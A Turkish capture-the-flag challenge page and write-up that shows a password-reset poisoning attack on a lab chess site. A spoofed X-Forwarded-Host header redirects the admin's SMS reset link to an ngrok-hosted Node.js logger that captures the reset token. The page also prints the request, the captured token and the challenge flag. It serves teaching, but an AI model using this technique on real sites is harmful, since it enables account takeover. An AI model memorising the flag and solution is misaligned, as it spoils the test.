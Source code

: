 # Şahmat

|    |  |
| ------------- |:-------------:|
| Zorluk        | Çerez(100 Puan)|
| Aşama         | Yarı Final    |
| Soru Türü     | Miscellaneous |
| Dosyalar      | sms.apk       |    
| Yazar         | [Rednexie](https://github.com/Rednexie) | 
 

## Soru Açıklaması
```
Zeki ama teknolojik konulardan bihaber bir oyuncu olan şahmat, kurduğu platformdan telefonuna gelen tüm SMS'lerdeki bağlantılara tıklamaktadır.
```


### Sorunun alakalı olduğu alanlar
- Web Güvenliği
- Android 

## İpuçları
```
URL'yi nereden bileyim ki, senden duydum ben. ~sunucu
```

## Bayrak
```
BayrakBende{ş4h_M4t_L1br*r4l}
```


# WriteUp

## Soru Hakkında Bildiklerimiz ve Giriş

Soru ile ilgili bilgilerimiz aşağıdaki gibidir: 
- Soru için bize bir web sitesi, bir de Android Uygulaması(APK olarak) verilmiştir.
- Soruda verilen sitenin sahipleri, siteden gelen her türlü sms'teki bağlantıya tıklamaktadırlar, kendileri göndermiş olmasalar bile. 


## APK'nın incelenmesi ve Sitenin Genel Analizi

Soruda bize bir adet APK ve bir adet web sitesine erişim verilmektedir. 
Siteyi açtığımızda karşımıza popup olarak bir yönlendirici token'ı çıkmaktadır. Bu token gelecekte APK dosyasında karşımıza çıkacağı için şimdilik boşverebiliriz.


Sitenin içeriği ve amacına göz attığımızda, görüldüğü üzere şahmat isimli bir çevrimiçi satranç platformudur. Ayrıca bir sms onaylama sistemiyle anlaşmalı olduğu görülmektedir. Kullanıcılar telefon numaralarıyla buraya kaydolabilmektedirler. Ayrıca şifre sıfırlama gibi olmazsa olmaz platform özellikleri de mevcuttur ve sorunsuz çalışmaktadır.


APK'ya geri döndüğümüzde, APK ise kullanıcıların telefon numaralarını vermek istemedikleri, ancak SMS onaylaması isteyen yerlerde kullanmaları için tasarlanmış bir sistemdir. Şahmat'tan aldığımız token'ı uygulamayı açtığımızda çıkan kısma girdiğimizde, herhangi bir ücret almadan birkaç tane telefon numarası kullanımımıza sunulmaktadır. Bize düşen de bu telefon numaralarını kullanarak Şahmat üyeliğimizi oluşturmak ve hesapla ilgili fonskiyonları inceleyebilmektir.

Kayıt olma kısmına telefon numaramız, kullanıcı admız ve şifremizi girdiğimizde herhangi bir sıradışı durumla karşılaşmamamız gerekmektedir. Uygulamadan seçtiğimz numaranın mesajlarına, kaydımızı tamamladığımızla ilgili bir SMS gelecektir. Diğer kısımları incelediğimizde ise gözümüze çarpan şey şu olmalıdır: Telefon numarasını bilmediğimiz kullanıcıların telefonlarına şifre sıfırlama bağlantısı gönderebilmekteyiz, bunu kontrol etmek için kendi kullanıcı adımızı girerek kendimize bir SMS gönderebiliriz.

Burada aklımıza takılması gereken, gelen sms bağlantısıdaki URL'nin hardcoded olamayacak kadar spesifik olmasıdır. URL https değildir ve bir port içermektedir. Muhtemelen sunucu tarafında bir şekilde isteğin geldiği URL elde edilmekte ve gönderilen SMS'e bağlantı yerleştirilirken bu kullanılmaktadır. Bu da Host Header Manipulation Güvenlik Zafiyetinin olma ihtimalini göstermektedir. Sunucudan gelen yanıt başlıklarına baktığımızda, nginx veya apache gibi herhangi bir reverse proxy'nin varlığına rastlamamaktayız:

```
x-ratelimit-remaining 0
Connection            keep-alive
Keep-Alive            timeout=72
Accept-Ranges         bytes
Content-Length        6872
Cache-Control         public, max-age=0
Content-Type          text/html; charset=utf-8
Date                  Fri, 30 May 2025 20:52:54 GMT
ETag                  W/"1ad8-197225947e0"
Last-Modified         Fri, 30 May 2025 17:59:25 GMT
```


Bu da düşündüğümüz gibi Host Header Manipulation güvenlik açığını doğrulayan bir etkendir. 


## Zafiyetin Sömürülmesi


Sorunun açıklama kısmında bize platformun şu anki yöneticisi olan 'admin' kullanıcısının, herhangi bir kontrol yapmaksızın platformdan telefonuna gelen her türlü SMS'teki bağlantıyı açtığı belirtilmektedir. 
Yani gönderdiğimiz istekteki 'x-forwarded-host' değerini değiştirerek gönderdiğimiz bir şifre sıfırlama isteği, admin'e bizim url'mizi gönderecektir.


Bunun için herkese açık bir sunucuya ihtiyacımız olacak. Kendi hosting veya sunucumuzu kullanabilir, ya da ngrok veya localtunnel gibi reverse proxy'ler aracılığıyla cihazımızı dışarıya açabiliriz. Ben bu örnekte ngrok kullanacağım.
Ayrıca yine istenilen dil kullanılacak şekilde, şifre sıfırlama token'ını alabilmemiz için sunucuya gelen tüm istekleri terminale yazdıran bir web sunucusuna ihtiyacımız olacak. Ben Node.js tercih edeceğim:

```js
const http = require('http');
const url = require('url');

const server = http.createServer((req, res) => {
    console.log(new Date().toISOString());
    const parsedUrl = url.parse(req.url, true);
    console.log(parsedUrl.pathname);
    Object.entries(parsedUrl.query).forEach(([k, v]) => console.log(`${k}=${v}`));
    res.end();
});

server.listen(3000);
```

Sunucumuzu çalıştırdıktan sonra, ngrok ile portumuzu dışarı çıkaralım:

```
ngrok http 3000
```

Bu bize çıktı olarak tüm herkesin erişebileceği bir url verecektir, örneğin:

`https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app`

Şimdi, url'mizi gerekli kısma girmek üzere bir şifre sıfırlama isteği gönderelim: 

```
GET /api/reset?identifier=admin&method=username HTTP/1.1
X-Forwarded-Host: https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app
Host: soru.bayraksende.com:8383
Accept: */*
Accept-Language: tr,en-US;q=0.9,en;q=0.8
Referer: http://localhost:8383/reset

```

Şifre sıfırlama talimatının başarıyla gönderildiği mesajını almamızın ardından, sunucumuzun çalıştığı terminalde bir çıktı gözükecektir:

```
2025-05-31T14:25:36.789Z
/complete-resetation
token=9d207b8340804c8ebdbb73886958ae13
```

Bu token ile admin şifresini sıfırlayıp, hesaba girebiliriz. Girişin ardından bizi karşılayan profil kısmında, admin kullanıcısının hesap açıklamasında flag görünecektir.

